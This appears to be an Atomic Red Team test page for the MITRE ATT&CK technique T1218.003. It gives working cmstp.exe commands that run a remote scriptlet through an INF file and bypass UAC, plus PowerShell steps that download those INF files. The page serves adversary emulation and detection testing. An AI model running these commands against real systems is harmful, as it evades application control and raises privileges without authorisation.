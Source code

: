 # T1218.003 - Signed Binary Proxy Execution: CMSTP

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/003)

<blockquote>Adversaries may abuse CMSTP to proxy execution of malicious code. The Microsoft Connection Manager Profile Installer (CMSTP.exe) is a command-line program used to install Connection Manager service profiles. (Citation: Microsoft Connection Manager Oct 2009) CMSTP.exe accepts an installation information file (INF) as a parameter and installs a service profile leveraged for remote access connections.

Adversaries may supply CMSTP.exe with INF files infected with malicious commands. (Citation: Twitter CMSTP Usage Jan 2018) Similar to [Regsvr32](https://attack.mitre.org/techniques/T1218/010) / ”Squiblydoo”, CMSTP.exe may be abused to load and execute DLLs (Citation: MSitPros CMSTP Aug 2017) and/or COM scriptlets (SCT) from remote servers. (Citation: Twitter CMSTP Jan 2018) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018) This execution may also bypass AppLocker and other application control defenses since CMSTP.exe is a legitimate binary that may be signed by Microsoft.

CMSTP.exe can also be abused to [Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002) and execute arbitrary commands from a malicious INF through an auto-elevated COM interface. (Citation: MSitPros CMSTP Aug 2017) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - CMSTP Executing Remote Scriptlet](#atomic-test-1---cmstp-executing-remote-scriptlet)

- [Atomic Test #2 - CMSTP Executing UAC Bypass](#atomic-test-2---cmstp-executing-uac-bypass)

<br/>

## Atomic Test #1 - CMSTP Executing Remote Scriptlet

Adversaries may supply CMSTP.exe with INF files infected with malicious commands

**Supported Platforms:** Windows

**auto_generated_guid:** 34e63321-9683-496b-bbc1-7566bc55e624

#### Inputs:

| Name          | Description          | Type | Default Value                                               |
| ------------- | -------------------- | ---- | ----------------------------------------------------------- |
| inf_file_path | Path to the INF file | path | PathToAtomicsFolder&#92;T1218.003&#92;src&#92;T1218.003.inf |

#### Attack Commands: Run with `command_prompt`!

```cmd
cmstp.exe /s "#{inf_file_path}"
```

#### Dependencies: Run with `powershell`!

##### Description: INF file must exist on disk at specified location (#{inf_file_path})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{inf_file_path}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{inf_file_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.003/src/T1218.003.inf" -OutFile "#{inf_file_path}"
```

<br/>
<br/>

## Atomic Test #2 - CMSTP Executing UAC Bypass

Adversaries may invoke cmd.exe (or other malicious commands) by embedding them in the RunPreSetupCommandsSection of an INF file

**Supported Platforms:** Windows

**auto_generated_guid:** 748cb4f6-2fb3-4e97-b7ad-b22635a09ab0

#### Inputs:

| Name         | Description          | Type | Default Value                                                         |
| ------------ | -------------------- | ---- | --------------------------------------------------------------------- |
| inf_file_uac | Path to the INF file | path | PathToAtomicsFolder&#92;T1218.003&#92;src&#92;T1218.003_uacbypass.inf |

#### Attack Commands: Run with `command_prompt`!

```cmd
cmstp.exe /s "#{inf_file_uac}" /au
```

#### Dependencies: Run with `powershell`!

##### Description: INF file must exist on disk at specified location (#{inf_file_uac})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{inf_file_uac}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{inf_file_uac}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.003/src/T1218.003_uacbypass.inf" -OutFile "#{inf_file_uac}"
```

<br/>

